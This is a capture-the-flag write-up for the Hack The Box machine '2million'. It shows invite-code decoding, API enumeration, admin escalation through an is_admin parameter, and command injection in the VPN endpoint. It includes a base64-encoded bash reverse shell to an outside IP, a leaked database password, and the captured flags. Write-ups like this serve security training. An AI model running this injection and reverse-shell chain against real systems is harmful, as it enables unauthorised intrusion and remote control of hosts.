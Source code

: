 After mapping the website 
on page of login :-
simple login form with error in "User not found" ==> you can bruteforce username
by dirb search 
you will find : http://2million.htb/register
also found js function in invite page
after deobfuscate it 
```
function verifyInviteCode(code) {
    var formData = { "code": code };

    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            if (response.status === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                localStorage.setItem('inviteCode', code);
                window.location.href = '/register';
            } else {
                alert("Invalid invite code. Please try again.");
            }
        },
        error: function(response) {
            alert("An error occurred. Please try again.");
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

```
then go to register page 
http://2million.htb/register

with burpe you will git this reqest 
```
POST /api/v1/user/register HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://2million.htb
Connection: close
Referer: http://2million.htb/register
Cookie: PHPSESSID=dro49cpjchla0hbraffbmhqv4v
Upgrade-Insecure-Requests: 1

code=&username=user&email=user%40htb.com&password=user&password_confirmation=user
```

curl -sX POST http://2million.htb/api/v1/invite/how/to/generate 
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}

you got a ROT13-decoded message says : In order to generate the invite code, make a POST request to /api/v1/invite/generate

curl -sX POST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc=","format":"encoded"}}  

it is base64 decoded invitation code  => echo N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc= | base64 -d => 7VPT4-I4FM4-N3Q3K-2KI9G 

Use the invitation code to register an account

code=7VPT4-I4FM4-N3Q3K-2KI9G&username=user&email=user%40htb.com&password=user&password_confirmation=user

GET the PHPSESSID from your browser => 0u8rjqr7pid9s7m2eaoavcjecu

curl -sv 2million.htb/api --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq

curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq

* Connection #0 to host 2million.htb left intact
{
  "/api/v1": "Version 1 of the API"
}

curl http://2million.htb/api/v1 --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq 

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

You find all V1 data

curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" | jq

{
  "status": "danger",
  "message": "Missing parameter: email"
}

curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}

curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com", "is_admin": '1'}' | jq 

{
  "id": 13,
  "username": "user",
  "is_admin": 1
}

if you now try curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq

curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user"}'  

curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user;id;"}'  

echo -n "bash -i >& /dev/tcp/10.10.14.48/1234 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC8xMjM0IDA+JjE=

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

We find admin password 
ssh to admin with the password

user flag => a2624f25c7983f33de70b88f7b290710

in /var/mail/admin

From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather

root.txt => f3f590b486fa536eb258bc4abf59e107
